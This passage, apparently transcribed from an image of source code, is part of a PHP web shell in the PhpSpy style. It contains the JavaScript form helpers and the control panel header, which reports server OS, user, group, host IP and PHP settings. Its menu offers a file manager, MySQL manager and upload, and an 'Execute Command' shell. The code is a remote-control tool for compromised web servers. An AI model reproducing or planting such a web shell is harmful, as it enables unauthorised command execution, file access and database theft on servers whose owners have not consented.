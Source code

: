 		$('settable').page.value=page;
	}
	$('settable').tablename.value=tablename;
	$('settable').submit();
}
function s(action,nowpath,p1,p2,p3,p4,p5) {
	if(action) $('opform').action.value=action;
	if(nowpath) $('opform').nowpath.value=nowpath;
	if(p1) $('opform').p1.value=p1;
	if(p2) $('opform').p2.value=p2;
	if(p3) $('opform').p3.value=p3;
	if(p4) $('opform').p4.value=p4;
	if(p5) $('opform').p4.value=p5;
}
function g(action,nowpath,p1,p2,p3,p4,p5) {
	if(!action) return;
	s(action,nowpath,p1,p2,p3,p4,p5);
	$('opform').submit();
}
&lt;/script&gt;
&lt;/head&gt;
&lt;body style="margin:0;table-layout:fixed; word-break:break-all"&gt;
&lt;?php
formhead(array('name'=&gt;'opform'));
makehide('action', $action);
makehide('nowpath', $nowpath);
makehide('p1', $p1);
makehide('p2', $p2);
makehide('p3', $p3);
makehide('p4', $p4);
makehide('p5', $p5);
formfoot();

if(!function_exists('posix_getegid')) {
	$user = @get_current_user();
	$uid = @getmyuid();
	$gid = @getmygid();
	$group = "?";
} else {
	$uid = @posix_getpwuid(@posix_geteuid());
	$gid = @posix_getgrgid(@posix_getegid());
	$user = $uid['name'];
	$uid = $uid['uid'];
	$group = $gid['name'];
	$gid = $gid['gid'];
}

?&gt;
&lt;table width="100%" border="0" cellpadding="0" cellspacing="0"&gt;
	&lt;tr class="head"&gt;
		&lt;td&gt;&lt;span style="float:right;"&gt;&lt;?php echo @php_uname();?&gt; / User:&lt;?php echo $uid.' ( '.$user.' ) / Group: '.$gid.' ( '.$group.' )';?&gt;&lt;/span&gt;&lt;?php echo $_SERVER['HTTP_HOST'];?&gt; (&lt;?php echo gethostbyname($_SERVER['SERVER_NAME']);?&gt;)&lt;/td&gt;
	&lt;/tr&gt;
	&lt;tr class="alt1"&gt;
		&lt;td&gt;
			&lt;span style="float:right;"&gt;PHP &lt;?php echo PHP_VERSION;?&gt; / Safe Mode:&lt;?php echo getcfg('safe_mode');?&gt;&lt;/span&gt;
			&lt;a href="javascript:g('logout');"&gt;Logout&lt;/a&gt; | 
			&lt;a href="javascript:g('file');"&gt;File Manager&lt;/a&gt; | 
			&lt;a href="javascript:g('mysqladmin');"&gt;MYSQL Manager&lt;/a&gt; | 
			&lt;a href="javascript:g('sqlfile');"&gt;MySQL Upload &amp; Download&lt;/a&gt; | 
			&lt;a href="javascript:g('shell');"&gt;Execute Command&lt;/a&gt; | 
			&lt;a href="javascript:g('phpenv');"&gt;PHP Variable&lt;/a&gt; | 